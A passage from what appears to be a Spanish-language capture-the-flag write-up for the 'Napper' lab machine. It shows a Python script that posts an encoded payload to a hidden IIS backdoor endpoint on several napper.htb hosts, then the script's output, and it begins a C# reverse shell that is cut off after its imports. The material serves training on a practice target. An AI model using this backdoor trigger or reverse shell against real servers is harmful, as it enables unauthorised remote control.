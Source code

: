 
Ejecutando el PoC del artículo anterior detectamos que el sitio web `https://napper.htb` tiene este backdoor pero no conseguimos ejecución de comandos.

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

hosts = ["app.napper.htb", "internal.napper.htb", "napper.htb"]
payload = "TVqQAAMAAAAEAAAA[...]"
form_field = f"sdafwe3rwe23={requests.utils.quote(payload)}"

for h in hosts:
    url_ssl = f"https://{h}/ews/MsExgHealthCheckd/"

    try:
        r_ssl = requests.post(url_ssl, data=form_field, verify=False)
        print(f"{url_ssl} : {r_ssl.status_code} {r_ssl.headers}")
    except KeyboardInterrupt:
        exit()
    except Exception as e:
        print(e)
        pass

```

```console
$ python3 poc.py 
/home/pointedsec/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.19) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
https://app.napper.htb/ews/MsExgHealthCheckd/ : 404 {'Content-Type': 'text/html', 'Server': 'Microsoft-IIS/10.0', 'Date': 'Tue, 27 Aug 2024 13:25:45 GMT', 'Content-Length': '1245'}
https://internal.napper.htb/ews/MsExgHealthCheckd/ : 401 {'Content-Type': 'text/html', 'Server': 'Microsoft-IIS/10.0', 'WWW-Authenticate': 'Basic realm="internal.napper.htb"', 'Date': 'Tue, 27 Aug 2024 13:25:45 GMT', 'Content-Length': '1293'}
https://napper.htb/ews/MsExgHealthCheckd/ : 200 {'Content-Length': '0', 'Content-Type': 'text/html; charset=utf-8', 'Server': 'Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0', 'X-Powered-By': 'ASP.NET', 'Date': 'Tue, 27 Aug 2024 13:25:45 GMT'}
```
Podemos ver que `napper.htb` devuelve un código 200 OK pero no recibimos ningún Ping.

Después de prueba y error conseguí una consola con esta reverse shell en C#.

```C#
using System;                                                                                                                                                                                                                                                                                                                
using System.Text;                                                                                                                                                                                                                                                                                                           
using System.IO;                                                                                                                                                                                                                                                                                                             
using System.Diagnostics;                                                                                                                                                                                                                                                                                                    
using System.ComponentModel;                                                   
using System.Linq;                                                             
using System.Net;                                                              
using System.Net.Sockets;                                                      
```